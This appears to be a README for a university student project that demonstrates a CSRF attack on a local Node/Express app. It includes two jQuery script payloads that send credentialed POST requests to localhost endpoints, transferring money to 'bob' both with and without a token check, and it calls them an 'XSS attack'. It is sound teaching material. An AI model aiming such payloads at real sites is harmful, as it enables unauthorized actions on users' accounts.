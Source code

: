 # CSRF-attack

CSRF is a type of malicious exploit of a website where unauthorized commands are transmitted 
from a user that the web application trusts.

## Getting Started

Clone the project to your computer.

### Installing

1. Install Node.js.  can be found [here](https://nodejs.org/en/download/)
2. Install express. can be found [here](https://expressjs.com/) .
3. (optional) Install Webstorm by jetbrains . can be download [here](https://www.jetbrains.com/webstorm/whatsnew/)

## Running 

Run the project . 
Run XSS attack with the following scripts:

### without token:
```
<script src="https://ajax.googleapis.com/ajax/libs/jquery/3.2.1/jquery.min.js">
</script><script>$.ajax({type: 'POST',url: 'http://localhost:3000/transfer',data:
{'dest':'bob','amount':'600'},xhrFields:{ withCredentials: true},success:function(msg){}});</script>
```
### with token:
```
<script src="https://ajax.googleapis.com/ajax/libs/jquery/3.2.1/jquery.min.js"></script>
<script>$.ajax({type: 'POST',url: 'http://localhost:3000/tokenTransfer',crossDomain: true,
data:{'dest':'bob','amount':'600'},xhrFields:{ withCredentials: true},success:function(msg){}});</script>

```
 
 ## Authors

* **Galit Vaknin** - [Galit1321](https://github.com/Galit1321)

* **Ifat Neumann** - [neumani1](https://github.com/neumani1)

* **Michal Shawat** - [michalShawat](https://github.com/michalShawat)

## Acknowledgments

* The BIU Center for Research in Applied Cryptography and Cyber Security in Bar-Ilan University
